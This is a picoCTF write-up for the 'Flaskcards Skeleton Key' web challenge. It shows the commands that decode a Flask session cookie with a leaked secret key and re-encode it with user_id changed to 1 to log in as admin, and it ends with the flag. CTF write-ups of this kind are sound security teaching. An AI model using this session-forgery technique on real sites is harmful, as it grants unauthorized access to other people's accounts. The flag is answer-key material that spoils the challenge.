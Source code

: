 # Flaskcards Skeleton Key - Web

> Nice! You found out they were sending the Secret_key: 385c16dd09098b011d0086f9e218a0a2. Now, can you find a way to log in as admin?

This page is the same as the last challenge Flaskcards but now we have to login as admin. If I intercept the request to /admin, we see our user has a session cookie that contains the value

```.eJwlj0tqAzEQBe-itRdSt1rd8mWG_okYQwIz9irk7hak9q949VuOdeb1Ve6v8523cjyi3MvC4CmAA5QqklCOmsRDUYmGs6U1BpsNR53VyGu34FzmQgTGS4cYdeQaEI15NjAdEISunXoPJRZSTRyRhjKEoQk7L5e6Kbfi17mO188zv_efbOC-mFwmhKQDixNDInDTreW25jbh3r2vPP8jqPx9AAZePd0.DpA5UQ.ALSxhNUvHq8TDSk0gxcmee3A56E```

With the secret_key that we got in the problem description, I directly thought of this as a Flask cookie because the name of the title and that we have to modify it to get logged in as admin. Then I google about how to decode flask cookies and I find this [tool](https://github.com/noraj/flask-session-cookie-manager).

To decode the cookie with the secret key, I run:

```python2 session_cookie_manager.py decode -c ".eJwlj0tqAzEQBe-itRdSt1rd8mWG_okYQwIz9irk7hak9q949VuOdeb1Ve6v8523cjyi3MvC4CmAA5QqklCOmsRDUYmGs6U1BpsNR53VyGu34FzmQgTGS4cYdeQaEI15NjAdEISunXoPJRZSTRyRhjKEoQk7L5e6Kbfi17mO188zv_efbOC-mFwmhKQDixNDInDTreW25jbh3r2vPP8jqPx9AAZePd0.DpA5UQ.ALSxhNUvHq8TDSk0gxcmee3A56E" -s "385c16dd09098b011d0086f9e218a0a2"```

This gives us the cookie:

```{u'csrf_token': u'e12ccf75c892d8ec278c572e3271a2d571f96de3', u'_fresh': True, u'user_id': u'5', u'_id': u'f3d7982362a503585e60e576a3a556c7beb172b9136090b5c04bd7efbc8552b7fa68b54370d2d177912ba62d53ca4544da5785aae36deb386872187c7fc80000'}```

Now we need to modify it in some way so we get the admin cookie and first thing I tried was to change user_id to 1. Therefore we run the same tool to encode the new cookie now:

```python2 session_cookie_manager.py encode -s "385c16dd09098b011d0086f9e218a0a2" -t "{u'csrf_token': u'e12ccf75c892d8ec278c572e3271a2d571f96de3', u'_fresh': True, u'user_id': u'1', u'_id': u'f3d7982362a503585e60e576a3a556c7beb172b9136090b5c04bd7efbc8552b7fa68b54370d2d177912ba62d53ca4544da5785aae36deb386872187c7fc80000'}"```

This gives us the following encoded cookie

```.eJwlj0FqQzEMBe_idRaWZFlyLvORZJmGQAv_J6vSu8fQ2b_hzW851pnXV7m_znfeyvGY5V4WTRmK1NG4Eitnr8nSjYy5h3g6CPoA6nVU56jNp-TyUGZ0WdbVuZHUiRNEBqBbx8kU1ri1aSzKZkl9ppN2FQSVkBVaN-VW4jrX8fp55vf-k4ARSzh04NQMFA0WTEIB21qBNbaJ9u595fkfAeXvAwZSPdk.DpA9OQ.5l1RizweQvHgB2wM4YgXbavp40U```

This looks like the same format as the one we started with which is great. Then I change my cookie to that one and get logged in admin. Then the flag is: picoCTF{1_id_to_rule_them_all_d77c1ed6} 
